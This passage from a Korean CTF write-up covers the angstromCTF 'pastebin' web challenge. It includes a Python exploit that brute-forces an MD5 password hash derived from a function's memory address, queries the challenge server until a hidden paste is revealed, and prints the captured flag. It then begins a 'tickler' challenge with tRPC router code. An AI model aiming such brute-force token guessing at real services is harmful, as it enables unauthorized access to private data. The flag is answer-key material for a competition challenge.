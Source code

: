 대회가 끝나고 한참 지나고나서야 풀렸다 :(     
                 
추가적으로, 다른 분이 올려준 코드를 보니 `secret.token_hex` 값의 마지막 자리 수가 `0`으로 나오기 때문에 16씩 값을 증가하면 훨씬 더 빠르게 값을 찾을 수 있다는 것이었다... 
               
### Exploit Code      
```python
import hashlib
import requests 

url = "https://pastebin.web.actf.co"

for x in range(135598340834432, 0, -1):
    s = 'password-<function token_hex at 0x{:x}>'.format(x)
    hash = hashlib.md5(s.encode()).hexdigest()
    print(s, hash)

    if hash[:6] == '1797c2':
        print(s, hash)
        r = requests.get(
            f"{url}/view?id=0&password={hash}"
        )
        if not "Incorrect" in r.text:
            print(r.text)
            exit(0)
```
                             
### Flag      
actf{47fd1d17b0c1121da0fc9d2d0c4fc109}         
                    
<a id="tickler"></a>             
                      
# tickler              

51 solved / 180 pts              
              
```typescript
const router = trpc.router({
    ...
    doTickle: authedProcedure
        .input(z.object({ username: z.string() }))
        .mutation(({ input: { username }, ctx }) => {
            if (!users.has(username)) {
                return {
                    success: false as const,
                    message: 'User does not exist.',
                }
            }

            if (username === ctx.user) {
                return {
                    success: false as const,
                    message: 'Nice try.',
                }
            }

            const count = tickles.get(username) ?? 0
            tickles.set(username, count + 1)

            return { success: true as const }
        }),

    getTickles: publicProcedure
        .input(z.object({ username: z.string() }))
```